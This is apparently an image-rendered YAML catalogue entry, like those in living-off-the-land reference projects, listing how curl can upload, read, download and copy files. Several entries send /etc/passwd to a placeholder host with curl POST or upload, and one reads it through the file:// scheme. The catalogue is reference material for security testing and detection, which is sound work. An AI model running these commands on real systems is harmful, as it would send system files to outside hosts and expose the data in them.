 ```yaml
---
functions:
  file-upload:
    - description: Send a local file to a remote server in a POST request.
      code: |
        curl --data @/etc/passwd http://website.com/
    - description: Send a local file to a remote server in a POST request.
      code: |
        curl -F 'var=@/etc/passwd' http://website.com/
    - description: Send a local file to a remote server in a POST request.
      code: |
        curl --upload-file /etc/passwd http://website.com/
  file-read:
    - description: Read local files by using the file:// schema.
      code: |
        curl file:///etc/passwd
  file-download:
    - description: Downloads a file to a destination.
      code: |
        curl http://website.com/ -o /tmp/
  file-write:
    - description: Uses file-read to effectively copy files.
      code: |
        curl file:///etc/passwd -o /tmp/
---
```

